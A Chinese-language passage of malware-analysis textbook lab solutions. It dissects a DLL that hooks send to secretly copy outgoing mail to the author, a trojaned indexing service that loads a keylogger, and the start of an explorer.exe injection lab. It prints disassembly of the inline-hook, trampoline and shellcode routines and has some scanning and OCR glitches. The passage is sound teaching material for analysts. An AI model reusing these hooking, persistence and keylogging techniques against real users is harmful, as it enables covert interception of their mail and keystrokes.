检查 *Lab11-02.ini* 的内容，我们发现它似乎包含编码或加密的数据。send 和 wsock32.dll 字符串可能表明恶意软件使用网络功能，但这一点在我们深入挖掘之前还不清楚。进程名称（OUTLOOK.EXE、MSIMN.EXE 和 THEBAT.EXE）是电子邮件客户端，将这些字符串与 RCPT TO: 结合起来，让我们怀疑这种恶意软件与电子邮件有关。

**注意**

*RCPT 是一个用于为电子邮件消息建立收件人的 SMTP 命令*。

接下来，我们使用基本的动态工具，如 procmon，来监控恶意软件。

我们首先尝试使用安装程序导出以下命令来安装恶意软件：

rundll32.exe Lab11-02.dll,installer

在 procmon 中，我们为进程 *rundll32.exe* 设置了一个过滤器，并看到恶意软件在 Windows 系统目录中创建了一个名为 *spoolvxx32.dll* 的文件。

进一步检查后，我们发现这个文件与 *Lab11-02.dll* 完全相同。

在 procmon 列表中进一步查看，我们看到恶意软件将 *spoolvxx32.dll* 添加到 AppInit_DLLs 列表中（导致恶意软件被加载到每个加载 *User32.dll* 的进程中）。最后，我们看到恶意软件尝试从 Windows 系统目录打开 *Lab1102.ini*。因此，我们应该将 INI 文件复制到 Windows 系统目录，以便恶意软件可以访问它。

我们将分析转移到 IDA Pro，以更深入地研究恶意软件。

我们首先分析安装程序导出。安装程序交叉引用的图示如图 11-2L 所示。

*图 11-2L：安装程序导出的交叉引用图* **572**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

如您所见，安装程序在注册表中设置了一个值，并将一个文件复制到 Windows 系统目录。这与我们在动态分析中看到的情况相符，并在反汇编中得到确认。安装程序函数的唯一目的是将恶意软件复制到 *spoolvxx32.dll* 并将其设置为 AppInit_DLLs 值。

在列表 11-7L 中，我们关注 DllMain，它首先检查 DLL_PROCESS_ATTACH，就像之前的实验一样。看起来这个恶意软件仅在 DLL_PROCESS_ATTACH 时运行；否则，DllMain 会返回而不做其他任何事情。

1000161E cmp [ebp+fdwReason], DLL_PROCESS_ATTACH

...

10001651 call _GetWindowsSystemDirectory 

10001656 mov [ebp+lpFileName], eax

10001659 push 104h ; 计数 1000165E push offset aLab1102_ini ; \\Lab11-02.ini 

10001663 mov edx, [ebp+lpFileName]

10001666 push edx ; 目标

10001667 call strncat 

1000166C add esp, 0Ch

1000166F push 0 ; hTemplateFile **1 1**

10001671 push FILE_ATTRIBUTE_NORMAL ; dwFlagsAndAttributes 10001676 push OPEN_EXISTING ; dwCreationDisposition 10001678 push 0 ; lpSecurityAttributes 1000167A push FILE_SHARE_READ ; dwShareMode 1000167C push GENERIC_READ ; dwDesiredAccess 10001681 mov eax, [ebp+lpFileName]

10001684 push eax ; lpFileName 10001685 call ds:CreateFileA 

*Listing 11-7L: DllMain 中尝试从系统目录打开 Lab11-02.ini 的代码* 在列表 11-7L 的  处，我们看到检索到的 Windows 系统目录以及 *Lab11-02.ini* 的字符串，如  所示。这些字符串与 strncat 在  处一起形成一个路径。恶意软件尝试以读取方式打开 INI 文件，如  所示。如果文件无法打开，DllMain 返回。

如果恶意软件成功打开 INI 文件，它将文件内容读入全局缓冲区，如列表 11-8L 所示。

100016A6 push offset byte_100034A0  ; lpBuffer 100016AB mov edx, [ebp+hObject]

100016AE push edx ; hFile 100016AF call ds:**ReadFile**

100016B5 cmp [ebp+NumberOfBytesRead], 0 

100016B9 jbe short loc_100016D2

100016BB mov eax, [ebp+NumberOfBytesRead]

100016BE mov byte_100034A0[eax], 0

100016C5 push offset byte_100034A0 

100016CA call sub_100010B3

*Listing 11-8L: 读取和解密 INI 文件*

实验解决方案

**573**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在调用 ReadFile 之后，恶意软件检查文件大小是否大于 0，如  所示。接下来，包含文件内容的缓冲区被传递给 sub_100010B3，如  所示。sub_100010B3 看起来可能是一个解码例程，因为它是在打开一个疑似编码文件的句柄之后第一个被调用的函数，所以我们将它称为 maybeDecoder。为了测试我们的理论，我们将恶意软件加载到 OllyDbg 中，并在 0x100016CA 处设置一个断点。（确保您已将 INI 文件和恶意软件复制到 Windows 系统目录中，并将 DLL 重命名为 *spoolvxx32.dll*。）在断点被触发后，我们跳过对 maybeDecoder 的调用。图 11-3L 显示了结果。

*Figure 11-3L: OllyDbg 显示 Lab11-02.ini 的解码内容* 在图 11-3L 的  处，解密内容——电子邮件地址 *billy@*

*malwareanalysisbook.com*—由 EAX 指向。此电子邮件地址存储在全局变量 byte_100034A0 中，我们在 IDA Pro 中将其重命名为 email_address 以便未来的分析。

我们在 DllMain 中还有一个函数要分析：sub_100014B6。因为这个函数将安装一个内联钩子，所以我们将它重命名为 hook_installer。hook_installer 函数很复杂，所以在深入之前，我们提供这个内联钩子在安装后如图 11-4L 所示的高级概述。

ws2_32.dll

ws2_32.dll

send

send

call send

send

call send

jmp

恶意

function

code

code

body of

send

function

code

start of

send

function

code

jmp

*图 11-4L：安装钩子前后的 send 函数* 图 11-4L 的左侧显示了在*ws2_32.dll*中正常调用 send 函数的样子。图的右侧显示了 hook_installer 如何安装 send 函数的内联钩子。send 函数的开始被替换为跳转到恶意代码，该代码调用一个跳板（如图中右下角所示）。跳板简单地执行 send 函数的开始（被第一次跳转覆盖），然后跳回原始的 send 函数，这样 send 函数就可以像安装钩子之前一样操作。

**574**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在 hook_installer 安装钩子之前，它会检查恶意软件正在哪个进程中运行。为此，它调用三个函数来获取当前进程名称。列表 11-9L 包含这些函数中的第一个函数，即 sub_10001075 的代码。

1000107D push offset Filename ; lpFilename 10001082 mov eax, [ebp+hModule]

10001085 push eax ; hModule 10001086 call ds:GetModuleFileNameA 

1000108C mov ecx, [ebp+arg_4]

1000108F mov dword ptr [ecx], offset Filename *列表 11-9L：调用 GetModuleFileNameA 获取当前进程名称* 如您所见，GetModuleFileNameA 在处被调用，并且因为它在调用此函数之前将 hModule 参数设置为 0，所以它返回了 DLL 加载到的进程的完整路径。接下来，恶意软件返回 arg_4（传递给函数的字符串指针）中的名称。这个字符串被传递给另外两个函数，这些函数解析文件名并将所有字符都转换为大写。

**1 1**

**注意**

*使用 AppInit_DLLs 作为持久机制的恶意软件通常使用* *GetModuleFileNameA。这个恶意 DLL 被加载到系统上几乎每个启动的进程中。因为恶意软件作者可能只想针对某些* *进程，他们必须确定恶意代码正在运行的进程名称。*

接下来，将当前进程名称的大写字母与 THEBAT.EXE、OUTLOOK.EXE 和 MSIMN.EXE 这些进程名称进行比较。如果字符串不等于这些文件名之一，恶意软件将退出。然而，如果恶意软件被加载到这三个进程之一中，列表 11-10L 中看到的恶意代码将执行。

10001561 call sub_100013BD 

10001566 push offset dword_10003484 ; int

1000156B push offset sub_1000113D

; int

10001570 push offset aSend ; "send"

10001575 push offset aWsock32_dll ; "wsock32.dll"

1000157A call sub_100012A3 

1000157F add esp, 10h

10001582 call sub_10001499 

*列表 11-10L：设置内联钩子的恶意代码* 列表 11-10L 有几个函数供我们分析。在处，我们看到对 GetCurrentProcessId 的调用，然后是 sub_100012FE，我们将其重命名为 suspend_threads。suspend_threads 函数调用 GetCurrentThreadId，它返回当前执行线程的线程标识符（TID）。接下来，suspend_threads 调用 CreateToolhelp32Snapshot 并使用结果进行循环。

**575**

[www.it-ebooks.info](http://www.it-ebooks.info/)

遍历当前进程的所有 TID。如果一个 TID 不是当前线程，则使用 TID 调用 SuspendThread。我们可以得出结论，处调用的函数挂起了当前进程中的所有正在执行的线程。

相反，处调用的函数执行完全相反的操作：它使用 ResumeThread 调用恢复所有线程。我们得出结论，列表 11-10L 中的代码被两个挂起然后恢复执行的功能所包围。当恶意软件进行可能影响当前执行（如更改内存或安装内联钩子）的更改时，这种行为很常见。

接下来，我们检查处的调用中的代码。函数 sub_100012A3

它接受四个参数，如列表 11-10L 中的连续推入所示。

由于这个函数只从这个位置调用，我们可以将所有参数重命名为与传递给函数的内容相匹配，如列表 11-11L 所示。

从开始。

100012A3 sub_100012A3 proc near

100012A3

100012A3 lpAddress= dword ptr -8

100012A3 hModule = dword ptr -4

100012A3 wsock32_DLL= dword ptr 8 

100012A3 send_function= dword ptr 0Ch

100012A3 p_sub_1000113D= dword ptr 10h

100012A3 p_dword_10003484= dword ptr 14h

100012A3

100012A3 push ebp

100012A4 mov ebp, esp

100012A6 sub esp, 8

100012A9 mov eax, [ebp+wsock32_DLL]

100012AC push eax ; lpModuleName 100012AD call ds:GetModuleHandleA 

...

100012CF mov edx, [ebp+send_function]

100012D2 push edx ; lpProcName 100012D3 mov eax, [ebp+hModule]

100012D6 push eax ; hModule 100012D7 call ds:GetProcAddress 

100012DD mov [ebp+lpAddress], eax

*列表 11-11L：sub_100012A3 解析发送函数* 在列表 11-11L 中，我们看到使用 GetModuleHandleA 在处获得的*wsock32.dll*句柄。该句柄传递给 GetProcAddress 以解析处的发送函数。恶意软件最终将发送函数的地址和另外两个参数（sub_1000113D 和 dword_10003484）传递给重命名为 place_hook 的 sub_10001203。

现在，我们检查 place_hook 并相应地重命名参数，以帮助我们的分析。列表 11-12L 显示了 place_hook 的开始。

**576**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

10001209 mov eax, [ebp+_sub_1000113D]

1000120C sub eax, [ebp+send_address]

1000120F sub eax, 5

10001212 mov [ebp+var_4], eax 

*列表 11-12L：跳转指令的地址计算* 列表 11-12L 中的代码计算了发送函数内存地址与 sub_1000113D 开始之间的差异。这个差异在移动到 var_4 之前减去了额外的 5 个字节。

在 。var_4 在代码中稍后使用，并在前面加上 0xE9（jmp 操作码），这使得这是一个跳转到 sub_1000113D 的 5 字节指令。

让我们稍后看看恶意软件如何在 place_hook 中安装此代码作为钩子。

发送函数的开始被列表 11-13L 中显示的指令修改。

10001271 mov edx, [ebp+send_address]

10001274 mov byte ptr [edx], 0E9h 

10001277 mov eax, [ebp+send_address]

1000127A mov ecx, [ebp+var_4]

1000127D mov [eax+1], ecx 

**1 1**

*列表 11-13L：内联钩子安装*

At ，代码将 0xE9 操作码复制到发送函数的开始处。

随后，它将 var_4 复制到 0xE9  之后。回想一下列表 11-12L，var_4 包含跳转的目的地，sub_1000113D。

列表 11-13L 中的代码在发送函数的开始处放置一个 jmp 指令，该指令跳转到我们 DLL 中的函数 sub_1000113D，我们将它重命名为 hook_function。

在我们检查 hook_function 之前，让我们完成对内联钩子安装的分析。列表 11-14L 显示了 place_hook 操作内存。

10001218 push ecx ; lpflOldProtect 10001219 push PAGE_EXECUTE_READWRITE ; flNewProtect 1000121B push 5 ; dwSize 1000121D mov edx, [ebp+send_address]

10001220 push edx ; lpAddress 10001221 call ds:VirtualProtect 

10001227 push 0FFh ; 大小

1000122C call malloc

10001231 add esp, 4

10001234 mov [ebp+var_8], eax 

*列表 11-14L：place_hook (sub_10001203) 操作内存* 在列表 11-14L 中，place_hook 在发送函数代码的开始处调用 VirtualProtect 。这个操作将内存保护更改为可执行、可读和可写访问，从而允许恶意软件修改发送函数的指令。在解决方案的末尾还有另一个对 VirtualProtect 的调用。

**577**

[www.it-ebooks.info](http://www.it-ebooks.info/)

函数恢复原始的内存保护设置。然后，在调用 VirtualProtect 后，恶意软件使用 malloc 分配了 0xFF 字节的内存，并将结果存储在 var_8  中。由于此动态分配的内存将在我们的钩子作为跳板安装中发挥重要作用，我们将 var_8 重命名为 trampoline。

**注意**

*为了正确执行，malloc 调用返回的内存必须是可执行内存，这可能不是总是情况，例如，如果通过 /Noexecute=alwayson 或类似方式启用了数据执行保护 (DEP)。*

列表 11-15L 展示了跳转代码的创建。

10001246 push 5 ; 大小

10001248 mov eax, [ebp+send_address]

1000124B push eax ; Src

1000124C mov ecx, [ebp+trampoline]

1000124F add ecx, 5

10001252 push ecx ; Dst

10001253 call memcpy 

10001258 add esp, 0Ch

1000125B mov edx, [ebp+trampoline]

1000125E mov byte ptr [edx+0Ah], 0E9h 

10001262 mov eax, [ebp+send_address]

10001265 sub eax, [ebp+trampoline]

10001268 sub eax, 0Ah

1000126B mov ecx, [ebp+trampoline]

1000126E mov [ecx+0Bh], eax 

*列表 11-15L：为内联钩子创建 trampoline* 在列表 11-15L 中，memcpy 在处复制了 send 函数的前 5 个字节到 trampoline 中。由于恶意软件覆盖了 send 指令的前 5 个字节（列表 11-13L），它需要确保原始指令被保存。恶意软件假设 send 函数的前几个指令正好对齐在 5 个字节上，这并不总是可能的情况。

接下来，恶意软件在处的 trampoline 代码中添加一个 jmp 指令

and . 在处，添加了 0xE9 操作码。在处，添加了跳转位置。

跳转位置是通过从 send 函数的位置减去 trampoline 的位置来计算的（这意味着它将跳回到 send 函数）。

最后，place_hook 通过将全局变量 dword_10003484 设置为 trampoline 位置来结束。我们将 dword_10003484 重命名为 trampoline_function 以帮助分析。

接下来，我们分析 hook_function（sub_1000113D），它将具有与 send 函数相同的参数，因为它被安装为钩子。我们通过右键单击函数名，选择**设置函数类型**，并输入以下内容开始分析：

**int __stdcall hook_function(SOCKET s, char * buf, int len, int flags)** **578**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

钩子函数在 buf 中查找字符串 RCPT TO:。如果没有找到该字符串，恶意软件将调用 trampoline_function，这将导致 send 在安装钩子之前以相同的方式操作。否则，列表 11-16L 中的代码

将执行。

1000116D push offset aRcptTo_1 ; "RCPT TO: <" 

10001172 lea ecx, [ebp+Dst]

10001178 push ecx ; Dst

10001179 call memcpy

...

10001186 push offset email_address ; Src 

...

10001198 lea edx, [ebp+eax+Dst]

1000119F push edx ; Dst

100011A0 call memcpy

100011A8 push offset Source ; ">\r\n" 

100011AD lea eax, [ebp+Dst]

100011B3 push eax ; Dest

100011B4 call strcat

*列表 11-16L：创建添加收件人的字符串* **1 1**

列表 11-16L 中的代码构建了一个字符串，并将其添加到输出缓冲区。这个字符串以 RCPT TO: <开始，后面跟着 email_address，并以>\r\n 结束。在这种情况下，email_address 的值是*billy@*

*malwareanalysisbook.com*（从*Lab11-02.ini*中提取，如前所述，当我们查看该文件的内容时所述）。此代码将收件人添加到所有发出的电子邮件消息中。

**低级钩子操作摘要**

这里是钩子操作的摘要（如图 11-4L 所示，前面已高阶展示）：



程序调用 send 函数。



send 函数的第一条指令将执行权转移到 sub_1000113D。



sub_1000113D 仅在包含 RCPT TO 的输出缓冲区中操纵。

字符串。



sub_1000113D 调用位于堆上并由 dword_10003484 指向的跳板代码。



跳板代码执行发送函数的前三个原始指令（它覆盖了以安装钩子）。



跳板代码在发送函数中跳回 5 个字节，以便发送可以正常工作。

**在 OllyDbg 中检查钩子**

我们可以通过安装恶意软件并启动 Outlook Express 来使用 OllyDbg 检查内联钩子。（Outlook Express 包含在 Microsoft Windows XP 中，并以*mSIMN.EXE*运行。）我们使用“解决方案到实验室”附加到该进程。

**579**

[www.it-ebooks.info](http://www.it-ebooks.info/)



**文件****附加**并从进程列表中选择*spoolvxx32.dll*。附加到进程会立即暂停所有线程。如果我们检查内存映射，我们会看到*spoolvxx32.dll*被加载到该进程中，因为它是一个 AppInit_DLLs 值。

接下来，我们通过按 CTRL-G 并在文本框中输入**send**来检查发送。图 11-5L 显示了发送函数的开始，其中包含跳转到 sub_1000113D 的 jmp 钩子。（如果您愿意，您可以在这个跳转处设置断点并在运行时分析代码。）

*图 11-5L：在 msimn.exe 中检查发送* *函数的内联钩子*

**捕获网络流量**

为了捕获此恶意软件的实际操作并查看它如何操纵网络流量，按照以下安全环境设置：

1.

在您的虚拟机上开启仅主机网络。

2.

使用命令**rundll32.exe Lab11-02.exe,installer**在您的虚拟机上安装恶意软件。

3.

将*Lab11-02.ini*复制到*C:\Windows\System32\*。

4.

启动 Wireshark 并在虚拟机网络接口上开始捕获数据包。

5.

将 Outlook Express 配置为向主机系统发送电子邮件。

6.

在您的主机机器上运行一个假邮件服务器，命令为**python**

**-m smtpd -n -c DebuggingServer *IP*****:25**，其中*IP*是主机的 IP 地址。

7.

从 Outlook Express 发送一封电子邮件。

8.

在 Wireshark 中查看数据包捕获，并在电子邮件消息上选择**跟随 TCP 流**。

**总结**

实验室 11-2 是一个恶意 DLL，它导出安装程序，通过使用 AppInit_DLLs 持久安装恶意软件，导致恶意软件被加载到大多数进程中。恶意软件通过使用预置的进程名称列表来检查它是否被加载到邮件客户端中。如果恶意软件确定它正在这些进程之一中运行，它将作为用户模式 rootkit 通过为发送函数安装内联钩子来行动。钩子的形式是在发送函数开始处的 jmp 指令。钩子执行一个函数，该函数扫描传递给发送函数的每个数据缓冲区，并**580**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

搜索 RCPT TO。如果恶意软件找到 RCPT TO 字符串，它将插入一个包含通过解码 *Lab11-02.ini* 获取的电子邮件地址的附加 RCPT TO，实际上是将恶意软件作者复制到从目标电子邮件程序发送的每封电子邮件中。

**Lab 11-3 解决方案**

***简短答案***

1\.

*Lab11-03.exe* 包含字符串 inet_epar32.dll 和 net start cisvc，这意味着它可能启动 CiSvc 索引服务。*Lab11-03.dll* 包含字符串 C:\WINDOWS\System32\kernel64x.dll 并导入了 API 调用 GetAsyncKeyState 和 GetForegroundWindow，这使我们怀疑它是一个将记录到 *kernel64x.dll* 的键盘记录器。

2\.

恶意软件首先将 *Lab11-03.dll* 复制到 Windows 系统目录中的 *inet_epar32.dll*。恶意软件将数据写入 *cisvc.exe* 并启动索引服务。恶意软件似乎还将按键写入到 *C:\* *Windows\System32\kernel64x.dll*。

3\.

恶意软件通过将索引服务 **1 1** 木马化来持续安装 *Lab11-03.dll*。

通过入口点重定向提供服务。它将入口点重定向以运行 shellcode，该 shellcode 加载 DLL。

4\.

恶意软件感染了 *cisvc.exe* 以加载 *inet_epar32.dll* 并调用其导出 zzz69806582\.

5\.

*Lab11-03.dll* 是一个在导出 zzz69806582\ 中实现的轮询键盘记录器。

6\.

恶意软件将按键和按键输入的窗口存储到 *C:\Windows\System32\kernel64x.dll*。

***详细分析***

我们将开始分析，检查 *Lab11-03.exe* 和 *Lab11-03.dll* 的字符串和导入。*Lab11-03.exe* 包含字符串 inet_epar32.dll 和 net start cisvc。net start 命令用于在 Windows 机器上启动服务，但我们还不知道恶意软件为什么要启动系统上的索引服务，因此我们将在深入分析中进一步挖掘。

*Lab11-03.dll* 包含字符串 C:\WINDOWS\System32\kernel64x.dll 并导入了 API 调用 GetAsyncKeyState 和 GetForegroundWindow，这使我们怀疑它是一个将按键记录到 *kernel64x.dll* 的键盘记录器。该 DLL 还包含一个奇特命名的导出：zzz69806582\.

接下来，我们使用动态分析技术来查看恶意软件在运行时的行为。我们设置 procmon 并筛选 *Lab11-03.exe* 以查看恶意软件创建 *C:\Windows\System32\inet_epar32.dll*。DLL *inet_epar32.dll* 与 *Lab11-03.dll* 相同，这告诉我们恶意软件将 *Lab11-03.dll* 复制到 Windows 系统目录。

在 procmon 输出中进一步查看，我们看到恶意软件打开对 *cisvc.exe* 的句柄，但我们没有看到任何 WriteFile 操作。

实验解决方案

**581**

[www.it-ebooks.info](http://www.it-ebooks.info/)

最后，恶意软件通过执行命令 net start cisvc 启动索引服务。使用进程资源管理器，我们看到 *cisvc.exe* 现在正在系统上运行。由于我们怀疑恶意软件可能正在记录按键，我们打开 *notepad.exe* 并输入一串 *a* 字符。我们看到生成了 *kernel64x.dll*。怀疑按键已被记录，我们在十六进制编辑器中打开 *kernel64x.dll* 并看到以下输出：

未命名 - 记事本: 0x41

未命名 - 记事本: 0x41

未命名 - 记事本: 0x41

未命名 - 记事本: 0x41

我们的按键已被记录到 *kernel64x.dll*。我们还看到，我们输入按键的程序（记事本）以及按键数据以十六进制形式被记录下来。（恶意软件没有将十六进制值转换为可读字符串，因此恶意软件作者可能有一个后处理脚本来更容易地读取输入的内容。）接下来，我们使用深入的技术来确定恶意软件为什么启动服务以及键盘记录器是如何获得执行的。我们首先将 *Lab11-03.exe* 加载到 IDA Pro 中，并检查主函数，如图 11-17L 所示。

004012DB push offset NewFileName ; "C:\\WINDOWS\\System32\\ inet_epar32.dll"

004012E0 push offset ExistingFileName ; "Lab11-03.dll"

004012E5 call ds:CopyFileA 

004012EB push offset aCisvc_exe ; "cisvc.exe"

004012F0 push offset Format ; "C:\\WINDOWS\\System32\\%s"

004012F5 lea eax, [ebp+FileName]

004012FB push eax ; 目标

004012FC call _sprintf

00401301 add esp, 0Ch

00401304 lea ecx, [ebp+FileName]

0040130A push ecx ; lpFileName 0040130B call sub_401070 

00401310 add esp, 4

00401313 push offset aNetStartCisvc ; "net start cisvc" 

00401318 call system

*列表 11-17L: 检查 Lab11-03.exe 的主方法* 在 ，我们看到主方法首先将 *Lab11-03.dll* 复制到 *C:\Windows\System32* 中的 *inet_epar32.dll*。然后，它构建字符串 C:\WINDOWS\ System32\cisvc.exe 并将其传递给  中的 sub_401070。最后，恶意软件通过使用 system 运行命令 net start cisvc 在  中启动索引服务。

我们关注 sub_401070，看看它可能对 *cisvc.exe* 做了什么。sub_401070 中有很多令人困惑的代码，所以使用图 11-6L 中的交叉引用图从高层次查看这个函数。

**582**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

*图 11-6L: sub_401070 的交叉引用图*

使用此图，我们看到 sub_401070 将 *cisvc.exe* 文件映射到内存中，以便通过调用 CreateFileA、CreateFileMappingA 和 MapViewOfFile 来操作它。所有这些函数都为读写访问打开文件。

MapViewOfFile 返回的内存映射视图的起始地址（由 IDA Pro 标记为 lpBaseAddress）既被读取也被写入。对文件所做的任何更改将在调用 UnmapViewOfFile 后写入磁盘，这解释了为什么我们没有在 procmon 输出中看到 WriteFile 函数。

在 *cisvc.exe* 的 PE 头部似乎进行了几个计算和检查。而不是分析这些复杂的操作，让我们专注于写入文件的数据，然后提取写入磁盘的 *cisvc.exe* 版本进行分析。

如列表 11-18L 所示，将缓冲区写入内存映射文件。

**1 1**

0040127C mov edi, [ebp+lpBaseAddress] 

0040127F add edi, [ebp+var_28]

00401282 mov ecx, 4Eh

00401287 mov esi, offset byte_409030 

0040128C rep movsd

**列表 11-18L：将 312 字节的壳代码写入 cisvc.exe** 在 ，文件映射位置被移动到 EDI，并通过 var_28 进行调整。接下来，ECX 被加载为 0x4E，即要写入的 DWORD 数量（movsd）。因此，总字节数为 0x4E * 4 = 312

十进制字节。最后，byte_409030 被移动到 ESI 的，rep movsd 将 byte_409030 中的数据复制到映射文件中。我们检查 0x409030 处的数据，并看到表 11-1L 左侧的字节。

**表 11-1L：写入 cisvc.exe 的壳代码** **原始字节**

**反汇编**

00409030 unk_409030 db 55h

00409030 push ebp

00409031 db 89h

00409031 mov ebp, esp

00409032 db 0E5h

00409033 sub esp, 40h

00409033 db 81h

00409039 jmp loc_409134

00409034 db 0ECh

00409035 db 40h

表格的左侧包含原始字节，但如果我们把光标放在 0x409030 处，并在 IDA Pro 中按 C 键，我们就会得到表格右侧显示的反汇编代码。这是壳代码——手工汇编代码，在这种情况下，是实验室解决方案

**583**

[www.it-ebooks.info](http://www.it-ebooks.info/)



用于进程注入。而不是分析壳代码（这样做可能有点复杂和混乱），我们将根据它包含的字符串来猜测它的功能。

在 312 字节壳代码的末尾，我们看到两个字符串：00409139 aCWindowsSystem db 'C:\WINDOWS\System32\inet_epar32.dll',0

0040915D aZzz69806582 db 'zzz69806582',0

*inet_epar32.dll* 路径和导出 zzz69806582 的出现

表明此壳代码加载 DLL 并调用其导出。

接下来，我们将运行恶意软件后存在的 *cisvc.exe* 二进制文件与恶意软件运行之前存在的干净版本进行比较。（大多数十六进制编辑器都提供比较工具。）比较这两个版本，我们发现有两个不同点：插入 312 字节的壳代码和在 PE 中的 2 字节更改

头部。我们将这两个二进制文件都加载到 PEview 中，看看我们是否注意到 PE 头部有差异。这种比较在图 11-7L 中显示。

*图 11-7L：cisvc.exe 原始版本和被木马化的版本的比较视图* 图 11-7L 的上半部分显示了加载到 PEview 中的原始*cisvc.exe*（命名为*cisvc_original.exe*），下半部分显示了被木马化的*cisvc.exe*。在和处，我们看到两个二进制文件的入口点不同。如果我们将这两个二进制文件都加载到 IDA Pro 中，我们会看到恶意软件已经执行了入口点重定向，以便在*cisvc.exe*启动时，shellcode 总是在原始入口点之前运行。列表 11-19L 显示了*cisvc.exe*被木马化版本中的 shellcode 片段。

01001B0A call dword ptr [ebp-4] 

01001B0D mov [ebp-10h], eax

01001B10 lea eax, [ebx+24h]

01001B16 push eax

01001B17 mov eax, [ebp-10h]

01001B1A push eax

**584**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

01001B1B call dword ptr [ebp-0Ch] 

01001B1E mov [ebp-8], eax

01001B21 call dword ptr [ebp-8] 

01001B24 mov esp, ebp

01001B26 pop ebp

01001B27 jmp _wmainCRTStartup 

*列表 11-19L：被木马化的 cisvc.exe 内部 shellcode 中的重要调用* 现在我们将*cisvc.exe*的木马化版本加载到调试器中，并在 0x1001B0A 处设置一个断点。我们发现，在处，恶意软件调用 LoadLibrary 将*inet_epar32.dll*加载到内存中。在处，恶意软件使用参数 zzz69806582 调用 GetProcAddress 以获取导出函数的地址。

在处，恶意软件调用 zzz69806582。最后，恶意软件跳转到原始入口点，以便服务可以像正常一样运行。shellcode 的功能符合我们之前的怀疑，即它加载*inet_epar32.dll*并调用其导出。

**键盘记录器分析**

接下来，我们分析*inet_epar32.dll*，它与*Lab11-03.dll*相同。我们将*Lab11-03.dll*加载到 IDA Pro 中，并开始分析文件。大多数的**1 1**

代码来源于 zzz69806582 导出。这个导出启动了一个线程并返回，因此我们将重点关注分析这个线程，如列表 11-20L 所示。

1000149D push offset Name ; "MZ"

100014A2 push 1 ; bInitialOwner 100014A4 push 0 ; lpMutexAttributes 100014A6 call ds:CreateMutexA 

...

100014BD push 0 ; hTemplateFile 100014BF push 80h ; dwFlagsAndAttributes 100014C4 push 4 ; dwCreationDisposition 100014C6 push 0 ; lpSecurityAttributes 100014C8 push 1 ; dwShareMode 100014CA push 0C0000000h ; dwDesiredAccess 100014CF push offset FileName ; "C:\\WINDOWS\\System32\\ kernel64x.dll"

100014D4 call ds:CreateFileA 

*列表 11-20L：由 zzz69806582 创建的线程执行的互斥锁和文件创建*

在处，恶意软件创建了一个名为 MZ 的互斥锁。这个互斥锁防止恶意软件运行多个实例，因为如果之前调用了 OpenMutex（未显示），那么互斥锁 MZ 已经存在时，将终止线程。接下来，在处，恶意软件打开或创建一个名为*kernel64x.dll*的文件用于写入。

在获取到*kernel64x.dll*的句柄后，恶意软件将文件指针设置到文件末尾，并调用 sub_10001380，其中包含一个循环。这个循环包含对 GetAsyncKeyState、GetForegroundWindow 和 WriteFile 的调用。这与我们在第 239 页上讨论的“用户空间键盘记录器”中的键盘记录方法一致。

实验解决方案

**585**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**总结**

*Lab11-03.exe* 木马化并启动 Windows 索引服务（*cisvc.exe*）。

木马 shellcode 加载一个 DLL 并调用一个导出函数来启动键盘记录器。该导出创建互斥量 MZ 并将所有按键记录到 Windows 系统目录下的*kernel64x.dll*。

**Lab 12-1 解决方案**

***简答***

1\.

运行恶意软件后，屏幕上每分钟都会显示弹出消息。

2\.

被注入的进程是*explorer.exe*。

3\.

您可以重新启动*explorer.exe*进程。

4\.

恶意软件执行 DLL 注入，在*explorer.exe*中启动*Lab12-01.dll*。一旦*Lab12-01.dll*被注入，它每分钟在屏幕上显示一个消息框，其中有一个计数器显示已经过去多少分钟。

***详细分析***

让我们从基本的静态分析开始。检查*Lab12-01.exe*的导入项，我们看到 CreateRemoteThread、WriteProcessMemory 和 VirtualAllocEx。根据第十二章的讨论，我们知道我们可能正在处理某种形式的进程注入。因此，我们的第一个目标应该是确定被注入的代码以及注入到哪个进程中。检查恶意软件中的字符串，我们看到一些值得注意的字符串，包括 explorer.exe、Lab12-01.dll 和 psapi.dll。

接下来，我们使用基本的动态技术来查看恶意软件运行时做了什么。当我们运行恶意软件时，它每分钟创建一个消息框（当你试图使用分析工具时非常烦人）。Procmon 没有有用的信息，Process Explorer 没有显示明显的进程运行，似乎没有导入任何网络功能，所以我们转向 IDA Pro 来确定产生消息框的是什么。

在主函数开始处的一些代码中，我们看到恶意软件正在*psapi.dll*中解析 Windows 进程枚举的函数。列表 12-1L

包含恶意软件手动使用 LoadLibraryA 和 GetProcAddress 解析的三个函数的一个示例。

0040111F push offset ProcName ; "EnumProcessModules"

00401124 push offset LibFileName ; "psapi.dll"

00401129 call ds:**LoadLibraryA**

0040112F push eax ; hModule 00401130 call ds:**GetProcAddress**

00401136 mov

dword_408714, eax

*列表 12-1L：动态解析进程枚举导入* **586**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

恶意软件将函数指针保存到 dword_408714、dword_40870C 和 dword_408710。我们可以通过将它们重命名为 myEnumProcessModules、myGetModuleBaseNameA 和 myEnumProcesses 来更容易地识别分析中稍后调用的函数。在列表 12-1L 中，我们应该将 dword_408714 重命名为 myEnumProcessModules，如所示。

动态解析函数后，代码调用 dword_408710

(EnumProcesses)，它检索系统中每个进程对象的 PID。

EnumProcesses 返回一个包含由局部变量 dwProcessId 引用的 PID 的数组。dwProcessId 用于循环遍历进程列表，并对每个 PID 调用 sub_401000。

